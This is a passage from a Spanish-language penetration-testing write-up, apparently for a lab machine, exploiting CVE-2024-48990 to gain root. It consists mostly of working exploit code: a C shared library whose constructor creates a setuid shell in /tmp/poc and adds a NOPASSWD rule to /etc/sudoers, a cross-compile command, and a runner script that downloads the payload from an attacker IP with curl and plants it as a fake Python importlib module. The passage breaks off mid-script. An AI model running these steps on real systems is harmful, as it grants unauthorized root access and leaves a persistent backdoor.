 - Por lo tanto, es posible usar CVE-2024–48990 para obtener una shell, pero el objetivo no tiene gcc, por lo que necesitamos construir lib.c en nuestra máquina y compilarlo con gcc.

https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing   

**Primero crea lib.c en tu maquina**

```bash

cat lib.c 

#include <stdio.h   
#include <stdlib.h>   
#include <sys/types.h>   
#include <unistd.h>   
  
static void a() __attribute__((constructor));   
  
void a() {   
    if(geteuid() == 0) { // Solo se ejecuta si se ejecuta con privilegios de root   
        setuid(0);   
        setgid(0);   
        const char *shell = "cp /bin/sh /tmp/poc; "   
                            "chmod u+s /tmp/poc; "   
                            "grep -qxF 'ALL ALL=NOPASSWD: /tmp/poc' /etc/sudoers || "   
                            "echo 'ALL ALL=NOPASSWD: /tmp/poc' | tee -a /etc/sudoers > /dev/null &";   
        system(shell);   
    }   
}   

```

- Ejecutamos para compilar en nuestra maquina atacante

```bash

x86_64-linux-gnu-gcc -shared -fPIC -o __init__.so lib.c

```


- Luego modificamos runner.sh, eliminamos la parte de lib.c y cambiamos gcc por curl, el __init__.so que acabamos de compilar.

**runner.sh**

```bash

#!/bin/bash  
set -e  
cd /tmp  
mkdir -p malicious/importlib  
  
#chage to your ip and open python http server  
curl http://<IP-ATACANTE>:8000/__init__.so -o /tmp/malicious/importlib/__init__.so  
  
# Minimal Python script to trigger import  
cat << 'EOF' > /tmp/malicious/e.py  
import time  
while True:  
try:  
import importlib  
except:  
pass  
if __import__("os").path.exists("/tmp/poc"):  
print("Got shell!, delete traces in /tmp/poc, /tmp/malicious")  
__import__("os").system("sudo /tmp/poc -p")  
break  
```